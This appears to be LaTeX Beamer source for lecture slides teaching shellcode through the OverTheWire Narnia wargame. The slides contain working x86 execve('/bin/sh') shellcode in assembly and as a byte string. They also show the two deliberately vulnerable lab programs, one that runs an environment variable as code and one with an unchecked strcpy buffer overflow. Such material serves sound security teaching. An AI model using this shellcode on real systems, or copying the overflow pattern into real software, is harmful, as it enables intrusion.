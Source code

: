 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
\frametitle{Shellcode}
\begin{Verbatim}[frame=single, fontsize=\scriptsize]
# grep execve /usr/include/x86_64-linux-gnu/asm/unistd_32.h
# #define __NR_execve		 11
# man 2 execve
# int execve(const char *filename, char *const argv[], char *const envp[]);
# https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux
# eax = syscall[eax](ebx, ecx, edx, esi, edi, ebp)
xor %eax, %eax
xor %ecx, %ecx
xor %edx, %edx
mov $11, %al
jmp strLiteral
afterStrLiteral:
pop %ebx
int $0x80
strLiteral:
call afterStrLiteral
.string "/bin/sh"
\end{Verbatim}
\begin{Verbatim}[frame=single, fontsize=\scriptsize]
const char main[] =
    "\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xeb\x03\x5b\xcd\x80"
    "\xe8\xf8\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00";
\end{Verbatim}
\end{frame}

\begin{frame}[fragile]
\frametitle{Use of shellcode}
\verb|ssh narnia1@narnia.labs.overthewire.org|\\
\begin{Verbatim}[frame=single, fontsize=\scriptsize]
#include <stdio.h>

int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){
                printf("Give me something to execute"
                       " at the env-variable EGG\n");
                exit(1);
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG");
        ret();

        return 0;
}
\end{Verbatim}
\end{frame}

\begin{frame}[fragile]
\frametitle{Injecting shellcode}
\verb|ssh narnia2@narnia.labs.overthewire.org|\\
\begin{Verbatim}[frame=single, fontsize=\scriptsize]
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
                printf("Usage: %s argument\n", argv[0]);
                exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
}
\end{Verbatim}
\end{frame}
\end{document}
